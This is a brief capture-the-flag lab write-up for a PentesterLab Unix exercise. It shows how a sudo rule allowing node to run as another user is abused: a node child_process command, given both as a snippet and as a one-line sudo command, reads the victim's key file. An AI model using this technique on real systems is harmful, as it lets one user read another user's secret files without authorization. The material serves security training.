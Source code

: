 ### Unix 34
[Challenge URL](https://pentesterlab.com/exercises/unix_34/course)

And one more time with feeling, `sudo` misconfig using `node`/javascript.
We're fortunately given a code snippet to start with;
```node
var exec = require('child_process').exec;  
exec('[COMMAND]', function (error, stdOut, stdErr) {  
console.log(stdOut);  
});
```

Our full command will be `sudo -u victim node` to drop into a `node` shell, followed by `'var exec = require('child_process').exec; exec('cat /home/victim/key.txt', function (error, stdOut, stdErr) {console.log(stdOut); });'`

We could also do this as a single command with;
`sudo -u victim node -e "var exec = require('child_process').exec; exec('cat /home/victim/key.txt', function (error, stdOut, stdErr) {console.log(stdOut); });"`

